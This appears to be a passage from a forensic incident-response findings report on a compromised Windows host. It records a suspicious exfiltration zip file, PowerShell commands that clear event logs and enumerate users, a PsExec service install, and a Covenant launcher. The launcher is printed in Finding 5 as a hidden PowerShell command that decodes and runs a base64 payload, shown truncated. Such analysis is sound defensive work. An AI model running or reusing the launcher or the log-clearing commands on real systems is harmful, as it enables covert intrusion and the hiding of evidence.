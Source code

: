 

**Finding 2:** Large Zip File with Suspicious Name (note: File date is out of scope - but should still be investigated)
```
Full Path: C:\Windows\Temp\exfil-beeg.zip
Created: 2022-02-12 22:47:41
Accessed: 2022-02-12 22:47:41
Modified: 2022-02-12 22:48:02
Size: 476,600,765
```

---


**Finding 3:** Suspicious Powershell Commands by user: Administrator.MAGNUMTEMPUS
```
ls
Clear-EventLog -Log Application -Confirm
Clear-EventLog -Log Application
net user localgroup
net user john
net user john
```

---

**Finding 4:** PSEXEC Service installed (PsExec used to access this machine)
```
Date (PST): 2022-02-19 13:30:45
ServiceName: PSEXESVC
ServicePath: %SystemRoot%\PSEXESVC.exe
ServiceUser: LocalSystem
```

---

**Finding 5:** Suspicious Shells Spawn by WinRM, Covenant Launcher Indicators, Base64 Encoded Powershell Malware (note: File date is out of scope - but should still be investigated)
```
2022-02-12 04:21:36

"C:\Windows\System32\WindowsPowerShell\v
1.0\powershell.exe" -Sta -Nop -Window
Hidden -Command "sv o (New-Object IO.Memor
yStream);sv d (New-Object IO.Compression
.DeflateStream([IO.MemoryStream][Convert
]::FromBase64String('7Vp5cBvXef/eAlgsIQn
igqdEUgIlUYIoiuapw5Zl8ZJImaQlHrosVwKBJQk
LwEK7gERKtUMlbiZW6sTONGmcJo3tZCZxxvbEk7Q
+4kyixk09ucbuZFy7djxO42QaJzO10zZHJ5b6+94
uSECknKb/ZDItIHzvu953ve89vBU4dOxe8hCRF58
rV4ieJOe1h373aw6f4Nqng/Tlku/WPykGv1s/Np2
wwxnLnLKiqXAsmk6b2fCEEbZy6XAiHe69ZTScMuN
G84oVgQ2ujQN9RINCoUc7/RN5u6/TOlomWogaQSg
O7yf9AGF8TrrRhR2Z152TH2VQ7hyF9vwZUan8tzD
OD/L1F7B7y7slCX/L/we1WPRCfFoBqYHuL6Cbs8Z
MFuPPI45uYa4FJk42W0bSjLkxnHR1mor19hB1/29
C5NdzblD90rSP7tqK+tQQCceV+vva26ZEMCegRLA
gauMaG3bUjcitpkWlJ0ukXd1eAWbAApqpumc1eA2
Va5s+FfFjXgTMLctUaydkd6AvvdYHr6V1J/x4G7Z
WbbzTB+SyqsOoDQ+BhjmWRBD9Fqm43Pqna9rwF9s
ILdjwF9lYYf1WXMuGVmyjbMGGVmSjzGt5PJSJLIP
M+jpjWNRAmc96dgmuqlpbfCBQqsAdqKW3kOa+t4O
s5re2g1umRVYytSG04XIlpguzlK0NQWQdBDDZZOX
agKmzVok1ypZCjAesR3n+skgZU8v15VVmOTB9ebV
ZIUc9YFZKxKziIWBXs+KKMDe3vQq4vZoZwUgNi4O
VZi1Gs455KzFpDXNXVuorP5Qw1zKzVF+hl5phRnV
```
